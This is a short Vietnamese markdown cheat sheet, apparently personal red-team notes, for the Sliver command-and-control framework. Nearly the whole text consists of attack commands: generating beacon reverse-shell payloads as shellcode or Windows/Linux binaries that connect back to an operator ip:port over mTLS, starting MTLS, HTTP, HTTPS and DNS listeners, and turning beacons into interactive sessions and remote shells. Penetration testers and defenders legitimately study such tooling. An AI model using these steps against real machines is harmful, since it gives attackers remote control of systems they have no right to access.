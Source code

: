 # Sliver

## Setup

### Tạo payload

Sliver chia payload reverse shell thành hai loại chính đó là `Beacon` và `Session` payload

#### Beacon Shellcode

```
sliver > generate beacon --mtls <ip address>:<port> -f shellcode
```

#### Beacon Binary

```
sliver > generate beacon --mtls <ip address>:<port> --os #{os} -f #{file_format}
```

- `os`: windows | linux
- `file_format`: exe | elf

### Stager

**Tại sao phải dùng stager ?**
> Đọc trong [Stager Note](./stager.md) nhé :>

## Exploit

### Tạo Listener

#### MTLS

```bash
sliver > mtls
```

#### HTTP

```bash
sliver > http
```

#### HTTPS

```bash
sliver > https
```

#### DNS

```bash
sliver > dns
```

### Post Exploit

#### Tương tác beacon

```bash
sliver > beacons
sliver > use <beacon_id>
```

### Tạo session từ beacon

```bash
sliver (<beacon_name>) > interactive
sliver (<beacon_name>) > sessions
sliver (<beacon_name>) > use <session_id>
```

### Tạo shell từ session

```bash
sliver (<session_name>) > shell
```
